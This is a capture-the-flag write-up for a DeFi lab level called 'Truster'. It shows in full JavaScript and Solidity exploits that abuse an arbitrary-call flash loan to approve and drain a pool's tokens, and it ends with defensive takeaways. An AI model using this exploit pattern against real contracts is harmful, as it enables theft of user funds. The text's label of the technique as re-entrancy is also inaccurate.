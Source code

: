 # Level 3 : Truster

This challenge reminded me one of Ethernaut challenges. It took advantages of ERC20 tokens bad implemented.

To guide you , here are the functions publicly available when implementing an ERC20 token : 

- ***totalSupply()***
- ***balanceOf(address _owner)***
- ***transfer(address _to, uint256 _value)***
- ***transferFrom(address _from, address _to, uint256 _value)***
- ***approve(address _spender, uint256 _value)***
- ***allowance(address _owner, address _spender)***

Have an idea now ? the vulnerable code is here : `target.functionCall(data);`

*Note: **calldata** is usually used to encode functions for talking directly to the EVM. Which is this case is an indication that we should be sending an encoded function definition for the `target` to satisfy*

It’s a kind of Re-Entrancy we will use here. When we use `flashLoan()` function from the contract we can execute or call a function we want using the functionCall(data), and that’s the idea.

The main point is to find another way to transfer tokens but a way in 2 steps would be perfect because there is a check whether funds have been paid back or no here : `require(balanceAfter >= balanceBefore);`

Hopefully there is a well known way to do this in 2 steps in an ERC20 implementation : 

1. Step 1 : Approve transfer allowance using `approve(address _spender, uint256 _value)` 
2. Step 2 : Transfer funds using `transferFrom(address _from, address _to, uint256 _value)`

As `approve()` and `transferFrom()` are not implemented in TrusterLenderPool we have all the rights to do it.

**Conclusion :** what we can do here is instead of trying to steal the tokens, we can `approve()` our address for the total balance of the DVT contract and circle back after our approval is successfully made and `transfer`all of the DVT tokens to myself.

### Using only Javascript :

```jsx
const ABI = [
          "function approve(address spender,uint256 amount)"
        ]
const interface = new ethers.utils.Interface(ABI);
const data = interface.encodeFunctionData("approve",[attacker.address,TOKENS_IN_POOL.toString()]);
await this.pool.flashLoan(0,attacker.address,this.token.address,data);
await this.token.connect(attacker).transferFrom(this.pool.address,attacker.address,TOKENS_IN_POOL)
```

### Using a contract :

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "./TrusterLenderPool.sol";

contract AttackerTruster{
  function attackTruster(IERC20 token, TrusterLenderPool pool, address attacker_) public {
    uint256 poolBalance = token.balanceOf(address(pool));
    // IERC20::approve(address spender, uint256 amount)
    bytes memory payload = abi.encodeWithSignature("approve(address,uint256)", address(this), poolBalance);
    pool.flashLoan(0, attacker_, address(token), payload);
    // Then Transfer Tokens to us
    token.transferFrom(address(pool), attacker_, poolBalance);
  }
}
```

and 

```jsx
const Attacker = await ethers.getContractFactory('AttackerTruster', attacker)
this.attackerContract = await Attacker.deploy();
// Attack
await this.attackerContract.connect(attacker).attackTruster(this.token.address,this.pool.address,attacker.address);
```

### Key Security Takeaways

- When interfacing with contracts or implementing an ERC interface, implement all available functions.
- As always never trust any outside user, specially when allowing them to call a function with an argument that can be crafted